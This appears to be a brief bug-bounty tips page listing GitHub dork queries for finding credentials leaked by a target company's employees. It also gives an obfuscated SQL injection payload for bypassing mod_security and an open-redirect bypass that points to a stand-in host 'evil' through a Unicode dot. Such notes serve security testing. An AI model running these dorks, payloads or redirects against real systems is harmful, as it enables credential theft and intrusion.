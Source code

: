 📅 05-Dec-2020
### Github Dork
```text
"https://target.com" password or secret
"target.atlassian" password
"target.okta" password
"https://jira.target" password
"https://corp.target" password
"target.onelogin" password
"target.service-now" password
some time only "target"
Secret_key=
User_secret=
admin_passwd=
security_credentials
connectiondtring
JBBC
ssh2_auth-password
send_keys or send,keys
```

Always look for internal sub-domains of companies on GitHub
```text
"https://target.atlassian.com" password
"https://jira.target.com" password
"https://internal.target.com" password
```
Helps to track down employee exposed Jira credentials in GitHub repos.
other ways to find employee exposed sensitive files:

```text
"https://t.co/JgpXAQrPpW" dotfiles
"https://t.co/JgpXAQrPpW" authorizationToken
"https://t.co/JgpXAQrPpW" access_token
"https://t.co/JgpXAQrPpW" secret_key
```

## SQL payload to bypass mod_security 💉
```sql
/*!12345#qa%0A#%0AUnIOn*/(/*!12345#qa%0A#%0ASeleCt*//**/1)+--+
```

## When you are looking for bugs like SSRF & Open Redirect.
- and there is a blacklisted character. 
- try to bypassed using other Unicode characters.
- I found Open Redirect Bypass Using (。) Chinese dot `"%E3%80%82".`
poc: `redirect_to=////evil%E3%80%82com`

## Directory Traversal to Information Disclosure
![image](https://files.slack.com/files-pri/T017WT6089Y-F01G7EYGHGD/dir.png?pub_secret=c8c5969fdb)
